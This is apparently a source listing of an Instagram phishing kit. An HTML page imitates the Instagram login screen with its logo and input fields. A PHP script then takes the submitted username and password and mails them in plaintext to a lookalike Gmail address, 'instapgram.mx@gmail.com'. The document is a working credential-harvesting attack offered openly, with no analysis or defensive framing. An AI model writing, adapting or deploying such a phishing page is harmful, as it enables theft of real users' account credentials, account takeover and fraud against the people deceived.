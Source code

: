             margin-top: 10px;
        }
        .signup a {
            color: #0095f6;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Instagram_logo.svg/800px-Instagram_logo.svg.png?20160616034027" alt="Instagram Logo">
        <form>
            <input type="text" placeholder="Phone number, username, or email">
            <input type="password" placeholder="Password">
            <button type="submit">Log In</button>
        </form>
        <p><a href="#">Forgot password?</a></p>
    </div>
    <div class="signup">
        <p>Don't have an account? <a href="#">Sign up</a></p>
    </div>
</body>
</html>

<form action="http://localhost:3000/login" method="post">
    <input type="text" name="username" placeholder="Phone number, username, or email" required>
    <input type="password" name="password" placeholder="Password" required>
    <button type="submit">Log In</button>
</form>


<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Recoger los datos del formulario
    $username = htmlspecialchars($_POST['username']);
    $password = htmlspecialchars($_POST['password']);

    // Configurar el correo
    $to = "instapgram.mx@gmail.com";
    $subject = "Nuevo inicio de sesi�n";
    $message = "Username: " . $username . "\nPassword: " . $password;
    $headers = "From: no-reply@example.com";

    // Enviar el correo
    if (mail($to, $subject, $message, $headers)) {
        echo "Correo enviado exitosamente.";
    } else {
        echo "Error al enviar el correo.";
    }
} else {
    echo "M�todo no permitido.";
}
?>
